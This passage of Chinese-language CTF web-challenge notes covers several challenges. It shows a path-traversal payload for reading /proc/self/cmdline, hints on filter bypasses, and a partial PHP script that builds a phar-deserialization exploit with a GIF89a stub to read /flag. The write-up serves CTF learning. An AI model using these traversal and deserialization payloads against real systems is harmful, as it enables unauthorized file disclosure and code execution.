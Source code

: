 ## 六 picdown

有下载页面的十拿九稳的文件包含，然后介绍几个常用的文件夹（学习linux牛鼻）

`../../../../../proc/self/cmdline`查看当前正在执行的任务命令

常用的proc目录：https://blog.csdn.net/shenhuxi_yu/article/details/79697792

`/proc/pid/fd/ 这个目录包含了进程打开的每一个文件的链接`**open**打开了文件，创建文件描述符

然后后面就是无脑拼命令。

## 七 国赛 love_math

重点就在于`hex2bin`这个函数了，其他就是新建变量这些操作了。

## 八 国赛 CISCN-2019-华北赛区-Day2-Web-Web1

括号绕空格，这些基础操作了。

## 九 CISCN-2019-华北赛区-Day1-Web-Web1

文件下载是入后，发现源码泄漏的入口，进行源码的获取，然后代码审计。

![image-20201214212500959](https://i.loli.net/2020/12/14/pVcA3OiReqyFQ9K.png)

审计代码，构建pop链子就好了，当然离不开这些骚骚的协议了。最骚的上传文件和绕过，离不开我的phar协议，无视后缀，无视操作，只要有协议用。（巅峰极客的wp）

放上链接：https://xz.aliyun.com/t/2715

贴个脚本（前面的反序列自己搞定。

```
<?php

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct()
    {
        $this->nickname = new Reader();
        $this->backup = "/flag";
    }
}
class dbCtrl
{
    public $token;
    public function __construct()
    {
        $this->token = new User;
    }
}

Class Reader{
    public $filename;
    public $result;
}

$y1ng = new dbCtrl();

$phar = new Phar("web1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
```